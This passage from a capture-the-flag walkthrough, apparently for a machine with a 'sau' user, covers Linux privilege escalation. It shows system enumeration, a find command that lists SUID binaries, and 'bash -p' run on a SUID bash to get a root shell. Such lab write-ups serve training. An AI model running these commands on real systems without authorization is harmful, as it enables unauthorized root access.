Trying to login via SSH with the `sau` user, we get a shell. 

## Privilege Escalation

#### Local Enumeration (sau)

Enumerating system's information:

---
- id: `uid=1001(sau) gid=1001(sau) groups=1001(sau)`
- system: `Ubuntu 20.04.6 LTS`
- users: `sau`, `root`.
- kernel: `Linux pc 5.4.0-148-generic #165-Ubuntu x86_64 GNU/Linux`
- sudo enabled: `yes, but not for sau.`

---

One of the most common privilege escalation techniques is through [SUID](https://medium.com/go-cyber/linux-privilege-escalation-with-suid-files-6119d73bc620). Let's test it out and see how it works:

#### Checking for SUID binaries 

```bash
$ find / -user root -perm /4000 2>/dev/null 
# [...]
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/bash
/usr/bin/mount
/usr/bin/chsh
# [...]
```
The `bash` binary is set with the SUID bit. In simple words, this means that when executing bash, it runs with the owner's privileges, which in this case is root. To exploit this configuration, we can spawn a new shell [while maintaining the root privileges](https://gtfobins.github.io/gtfobins/bash/#suid).

```bash
$ bash -p
# whoami
root
```

Thank you for reading!
